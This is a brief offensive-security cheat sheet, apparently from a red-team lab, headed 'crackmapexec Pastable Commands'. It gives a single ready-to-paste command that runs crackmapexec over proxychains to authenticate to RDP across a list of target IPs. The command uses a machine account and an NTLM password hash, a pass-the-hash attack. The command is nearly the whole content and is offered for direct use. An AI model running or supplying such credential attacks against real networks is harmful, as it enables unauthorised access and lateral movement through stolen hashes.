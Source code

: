 # crackmapexec Pastable Commands

### RDP brute with hash&#x20;

* Have a target ip list in text file
* Username to try across a network&#x20;
* Password Hash

```
proxychains -f proxy9051.conf crackmapexec rdp target-list.txt -d RLAB -u 'SQL01$' -H 47b071asdfd0f06770137996c --no-bruteforce 
```
